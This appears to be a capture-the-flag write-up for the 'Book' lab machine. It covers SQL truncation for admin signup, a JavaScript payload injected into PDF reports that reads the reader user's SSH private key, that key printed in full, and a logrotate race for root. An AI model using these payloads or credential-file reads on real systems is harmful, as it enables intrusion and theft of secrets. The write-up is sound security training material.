 # User

## SQL Truncation for the admin panel
Replace session id.  Find maximum length of email, go beyond maximum to bypass existing user check.  Then login to admin panel.
```sh
curl -v 'http://10.10.10.176/index.php' -H 'Connection: keep-alive' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' -H 'Origin: http://10.10.10.176' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H 'Referer: http://10.10.10.176/' -H 'Accept-Language: en-US,en;q=0.9,la;q=0.8' -H 'Cookie: PHPSESSID=tj3vj7ksnlrhsncho22ec6hak4' --data 'name=name&email=admin@book.htb%20%20%20%20%20%20f&password=password' --compressed --insecure
```

## Enumerate, realize PDF reports are generated for users and books, inject for local file inclusion
Make use of similar SQL logic errors to inject HTML/JS into the reports.  Use the name of an existing Book so newly added records show up in the report.  Inject HTML/JS via the author field.  It's short so we need to include javascript from our own server.  Use that javascript to include local files, but we need to use a small font-size to have everything included.  Also use body.innerHTML to replace everything for the most space.  Find the reader user via `/etc/passwd` and then try and pull it's private key.  Use the script `do-pdf-injection.sh` to automatically send and then read the included file.

injected.js
```javascript
var body = document.getElementsByTagName('body')[0];
var x=new XMLHttpRequest();
x.onreadystatechange=function(){
    if (x.readyState == 4) {
        body.innerHTML = '<pre style="font-size: 2px; width: 1000px; height: 1000px">' + x.responseText + '</pre>';
    }
};
x.open("GET","file:///home/reader/.ssh/id_rsa");
x.send();
```

reader_id_rsa
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJG8m6UN
ZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0WxtCK0VlQUwx
Z6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0ePV8RKoYVWuVRb4nFG
1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6NgbPv4s7WaZQ4cjd+yzpOCJw9J91Vi3
3gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZXA6PK75I5d5Holg7ME40BU06Eq0E3EOY6wh
CPlzndVwIDAQABAoIBAQCs+kh7hihAbIi73mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXj
rP8ke/Pukg/OmDETXmtgToFwxsD+McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXW
QfgHThhPWHJI+3iuQRwzUItIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDg
eGnbzr9ERdiuX6WJjhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMe
lbFX50/owz7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6sZ8
GMx6GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jOwke0o8/4FLE2
vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPlSNbc8/ciqzwDZf
Sg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+SRM/Abh5xub6zT
hrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7lskGl3dh4M/2Tgl/gYPwU
KI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+Vo5GVjWTOlfEj74k8hC6GjzWHna
0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7mHc5LOGww+NqzB0HtsUprN6YpJ7AR6+Yl
EcItMl/FOW2AFbkzoNbHT9GpTj5ZfacChBhBp1ZeeShvWobqjKUxQmbp2W975wKR4Mdsih
UlpInwf4S2k8J+fVHJl4IjT80uPb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7
IUwfIBFnzqZ27pOAMYkhsMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyf
cdwQHc2XoY8YCftdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZX
ndVc/zLi5bBLnzECgYEAlLiYGzP92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pn
lWy1K/LbqIV3C01ruxVBOV7ivUYrRkxR/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TNnkea
f9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABIprhDfKUSbHzLIR4=
-----END RSA PRIVATE KEY-----
```

# Root

## Enumeration
We find `access.log` in the `home/reader/backups` directory and `pspy` shows logrotate in use.

## Logrotten
In order to win the race condition, it helps to create many `access.log.#` files of a reasonable size.  It took 13, and a loop to cat random shit into `access.log` every second was the way I did it.  The payload was just echoing my public key into root's authorized keys.  Once it worked, just ssh into root.